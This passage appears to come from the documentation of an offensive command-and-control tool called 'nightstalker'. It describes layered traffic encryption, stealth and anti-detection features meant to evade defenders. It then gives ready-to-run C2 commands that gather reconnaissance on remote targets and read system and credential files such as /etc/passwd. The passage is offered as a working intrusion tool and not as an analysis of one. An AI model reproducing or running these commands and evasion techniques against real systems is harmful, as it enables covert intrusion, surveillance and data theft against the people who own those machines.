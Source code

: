 ### Encryption

All communications are encrypted using:
- **Layer 1**: Fernet encryption
- **Layer 2**: Random padding
- **Layer 3**: XOR obfuscation
- **Layer 4**: Custom base64 encoding

### Stealth Techniques

- **Traffic Blending**: Communications look like legitimate traffic
- **Jitter**: Random delays between communications
- **Obfuscation**: Multiple layers of data obfuscation
- **Container Hiding**: Data hidden in images or text

### Anti-Detection

- **Signature Evasion**: No standard C2 signatures
- **Behavior Analysis**: Mimics legitimate applications
- **Network Analysis**: Traffic patterns match normal usage
- **Memory Analysis**: Minimal memory footprint

## 📊 Command Examples

### System Reconnaissance

```bash
# System information
nightstalker c2 send --target-id TARGET001 --command "uname -a && cat /etc/os-release"

# Network information
nightstalker c2 send --target-id TARGET001 --command "ip addr show && netstat -tuln"

# User information
nightstalker c2 send --target-id TARGET001 --command "whoami && id && groups"

# Process list
nightstalker c2 send --target-id TARGET001 --command "ps aux"
```

### File Operations

```bash
# List files
nightstalker c2 send --target-id TARGET001 --command "ls -la /home/user"

# Read file
nightstalker c2 send --target-id TARGET001 --command "cat /etc/passwd"

# Find files
nightstalker c2 send --target-id TARGET001 --command "find /home -name '*.txt' -type f"
```
